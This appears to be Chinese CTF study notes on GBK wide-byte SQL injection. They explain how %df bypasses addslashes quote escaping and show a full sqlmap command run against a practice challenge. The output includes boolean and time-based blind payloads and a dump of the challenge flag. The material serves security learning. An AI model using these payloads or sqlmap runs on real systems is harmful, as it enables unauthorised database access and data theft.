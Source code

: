 SQL注入小技巧
================================

宽字节注入
--------------------------------
- 例题: ``http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1`` 

::

		%df’ 被PHP转义（开启GPC、用addslashes函数，或者icov等），单引号被加上反斜杠\，变成了 %df\’，
		其中\的十六进制是 %5C ，那么现在 %df\’ 	=%df%5c%27，如果程序的默认字符集是GBK等宽字节字符集，
		则MySQL用GBK的编码时，会认为 %df%5c 是一个宽字符，也就是縗’，也就是说：%df\’ = %df%5c%27=縗’，
		因为gbk是多字节编码，他认为两个字节代表一个汉字，所以%df和后面的\也就是%5c变成了一个汉字“運”，
		而’逃逸了出来，有了单引号就好注入了.

		http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df'

		--threads 10	//如果你玩过 msfconsole的话会对这个很熟悉 sqlmap线程最高设置为10
		--level 3 	//sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP 
				Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高可到5
		--risk 3 	// 执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全
		--search 	//后面跟参数 -D -T -C 搜索列（S），表（S）和或数据库名称（S） 如果你脑子够聪明，
				应该知道库列表名中可能会有ctf,flag等字样.


- 执行 ``sqlmap -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1%df%27" --search -C flag --level 3 --risk 1 --thread 10`` 

::

		[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

		[*] starting at 05:36:28

		[05:36:29] [WARNING] it appears that you have provided tainted parameter values ('id=1%df'') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
		are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
		[05:36:30] [INFO] resuming back-end DBMS 'mysql'
		[05:36:30] [INFO] testing connection to the target URL
		[05:36:31] [INFO] heuristics detected web page charset 'ISO-8859-2'
		[05:36:31] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
		sqlmap resumed the following injection point(s) from stored session:
		---
		Parameter: id (GET)
			Type: boolean-based blind
			Title: AND boolean-based blind - WHERE or HAVING clause
			Payload: id=1%df' AND 5642=5642-- jbOi

			Type: AND/OR time-based blind
			Title: MySQL >= 5.0.12 AND time-based blind
			Payload: id=1%df' AND SLEEP(5)-- YtXh
		---
		[05:36:31] [INFO] the back-end DBMS is MySQL
		back-end DBMS: MySQL >= 5.0.12
		do you want sqlmap to consider provided column(s):
		[1] as LIKE column names (default)
		[2] as exact column names
		> 1
		[05:36:33] [INFO] searching columns LIKE 'flag' across all databases
		[05:36:33] [INFO] fetching number of databases with tables containing columns LIKE 'flag' across all databases
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 14
		[05:36:33] [INFO] resumed: sae-chinalover
		[05:36:33] [INFO] fetching number of tables containing columns LIKE 'flag' in database 'sae-chinalover'
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 4
		[05:36:33] [INFO] resumed: ctf4
		[05:36:33] [INFO] fetching columns LIKE 'flag' for table 'ctf4' in database 'sae-chinalover'
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 4
		[05:36:33] [INFO] resumed: flag
		columns LIKE 'flag' were found in the following databases:
		Database: sae-chinalover
		Table: ctf4
		[1 column]
		+--------+
		| Column |
		+--------+
		| flag   |
		+--------+

		do you want to dump entries? [Y/n] y
		which database(s)?
		[a]ll (default)
		[sae-chinalover]
		[q]uit
		>
		which table(s) of database 'sae-chinalover'?
		[a]ll (default)
		[ctf4]
		[s]kip
		[q]uit
		>
		[05:36:36] [INFO] fetching entries of column(s) 'flag' for table 'ctf4' in database 'sae-chinalover'
		[05:36:36] [INFO] fetching number of column(s) 'flag' entries for table 'ctf4' in database 'sae-chinalover'
		[05:36:36] [INFO] resumed: 1
		[05:36:36] [INFO] retrieving the length of query output
		[05:36:36] [INFO] resumed: 15
		[05:36:36] [INFO] resumed: nctf{gbk_3sqli}
		Database: sae-chinalover
		Table: ctf4
		[1 entry]
		+-----------------+
		| flag            |
		+-----------------+
		| nctf{gbk_3sqli} |
		+-----------------+

		[05:36:36] [INFO] table '`sae-chinalover`.ctf4' dumped to CSV file 'C:\Users\ninthDVEIL HUNSTER\.sqlmap\output\chinalover.sinaapp.com\dump\sae-chinalover\ctf4.csv'
		[05:36:36] [INFO] fetched data logged to text files under 'C:\Users\ninthDVEIL HUNSTER\.sqlmap\output\chinalover.sinaapp.com'

		[*] shutting down at 05:36:36

- 宽字节注入
	使用--tamper "unmagicquotes.py"参数。